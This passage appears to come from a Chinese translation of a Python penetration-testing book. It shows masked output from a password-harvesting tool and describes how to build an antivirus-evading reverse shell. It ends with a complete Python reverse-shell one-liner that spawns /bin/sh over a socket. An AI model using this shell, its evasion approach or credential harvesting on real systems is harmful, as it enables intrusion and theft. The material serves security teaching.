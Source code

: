 ```py

[+] Password found !!!
URL: https://id.atlassian.com
Login: b'****'
Password: b'****'

[+] Password found !!!
URL: http://192.168.1.102
Login: b'****'
Password: b'****'

[+] Password found !!!
URL: https://twitter.com
Login: b'****'
Password: b'****'

[+] 59 passwords have been found.
For more information launch it again with the -v option
```

这个工具非常方便。它不仅可以提取浏览器密码，还可以从以下位置提取密码：

+   `系统管理员`

+   `全部`

+   `内存`

+   `钱包`

+   `聊天`

+   `邮件`

+   `数据库`

+   `WiFi`

+   `浏览器`

# Python 用于无杀毒软件持久性 shell

正如我们所知，规避杀毒软件的最佳技术之一是编写自定义的利用程序。如果利用程序是从头开始编写的，杀毒引擎几乎没有机会将代码签名与已知的恶意签名匹配。在本节中，我们将编写一个自定义 shell，从受害者的机器返回一个反向 shell，并查看有多少 AV 引擎可以检测到它。

让我们编写一个自定义的利用程序，命名为`my_car.py`，并将以下代码放入其中：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/hsn-pentest-py/img/e17adf32-3de2-4d59-b1a3-b997ee0c56f2.png)

如果我们观察前述代码，我们会发现它是一个 Python 代码的改编，用于将反向 shell 生成到攻击者的 IP 地址。我们正在导入 Python 模块，并在本地为导入的模块分配别名。杀毒引擎主要是基于签名方法工作的，已知的签名，如`subprocess.call["/bin/sh","-i"'\]`，可能会被检测到。在这种情况下，我们正在玩弄本地变量，以确保攻击者 IP、端口号、OS 模块和其他 Python 模块不被检测到。前述代码改编自的原始代码如下所示：

```py
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```
